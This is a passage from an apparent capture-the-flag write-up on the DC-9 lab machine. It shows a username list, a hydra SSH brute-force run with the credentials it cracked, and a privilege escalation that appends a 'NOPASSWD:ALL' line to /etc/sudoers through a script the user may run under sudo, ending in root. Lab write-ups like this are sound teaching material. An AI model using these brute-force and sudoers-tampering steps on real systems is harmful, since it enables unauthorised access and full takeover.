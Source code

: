 ``` bash
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
```

Then I made a brute force attack with hydra, where two valid users were found.

``` bash
root@kali:~$ hydra -L ssh_users -P ssh_passwords ssh://192.168.179.128
...
[DATA] attacking ssh://192.168.179.128:22/
[22][ssh] host: 192.168.179.128   login: fredf   password: B4-Tru3-001
[22][ssh] host: 192.168.179.128   login: joeyt   password: Passw0rd
1 of 1 target successfully completed, 2 valid passwords found
```

## Privilege Escalation
### Sudo Permissions

We access via SSH with the credentials **fredf:B4-Tru3-001** we verify the sudo privileges and we found that it has permissions to execute a script without providing a password.

``` bash
root@kali:~$ ssh -l fredf 192.168.179.128                      
fredf@192.168.179.128's password: 
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

This script reads a file and adds the content to a file, to obtain root we create the **sudo_perm** file assigning sudo permissions to the user **fredf** to run any command without providing a password, then we execute the script as parameters the **sudo_perm** and **sudoers** files, and we get root.

``` bash
fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test 
Usage: python test.py read append
fredf@dc-9:~$ echo "fredf ALL=(ALL) NOPASSWD:ALL" > sudo_perm
fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test sudo_perm /etc/sudoers
fredf@dc-9:~$ sudo su
root@dc-9:/home/fredf# id
uid=0(root) gid=0(root) groups=0(root)
```

